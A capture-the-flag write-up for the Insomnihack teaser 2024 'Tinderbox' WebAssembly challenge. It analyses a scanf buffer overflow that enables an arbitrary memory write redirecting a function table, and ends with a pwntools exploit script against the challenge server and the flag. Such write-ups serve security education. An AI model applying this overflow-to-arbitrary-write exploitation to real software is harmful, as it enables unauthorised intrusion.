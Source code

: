 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< image src="/img/Insomnihack_teaser_2024/get_name.png" position="center" >}}
Figure 1: Get name function

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format `%s`. So it's clear that there is a buffer overflow here.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< image src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" >}}
Figure 2: Function table

{{< image src="/img/Insomnihack_teaser_2024/setValues.png" position="center" >}}
Figure 3: setValues function

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where name is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function to referencing to first character of the `name` buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< image src="/img/Insomnihack_teaser_2024/original_main.png" position="center" >}}
Figure 4: original_main function

We can't use buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
N.B. in this stack representation (obviously) numbers in square bracket below are refered to the size of the array.

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions, basically we only need to modify `jump_tables_offset[1]` from value **3** to **2**, so we'll call `win` function when we run third option in the menu.

{{< image src="/img/Insomnihack_teaser_2024/menu.png" position="center" >}}
Figure 3: menu function

After some tries we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
